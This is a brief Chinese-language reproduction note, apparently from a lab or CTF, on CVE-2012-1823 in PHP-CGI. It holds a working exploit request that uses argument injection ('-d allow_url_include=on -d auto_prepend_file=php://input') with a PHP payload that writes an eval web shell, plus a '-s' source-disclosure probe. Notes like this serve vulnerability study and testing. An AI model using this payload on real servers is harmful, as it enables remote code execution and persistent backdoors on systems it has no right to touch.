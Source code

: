# CVE-2012-1823
![](vx_images/323616518703308.png)

```
漏洞影响范围%0D%0A%0D%0A%E2%80%8B 漏洞影响版本 PHP < 5.3.12 、 PHP < 5.4.2%0D%0A%0D%0A%E2%80%8B CVE-2012-1823是在php-cgi运行模式下出现的漏洞，其漏洞只出现在以cgi模式运行的php中。
```
![](vx_images/362905520820955.png)


/index.php?-s显示源码
![](vx_images/374384194045265.png)
存在漏洞

```
构造文件包含
payload:
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input


<?php fputs(fopen('1.php','w'),'<?php eval($_POST[1]);?>');?>
```

![](vx_images/390893067326220.png)
没有写权限,那就直接读取


![](vx_images/319521897328461.png)






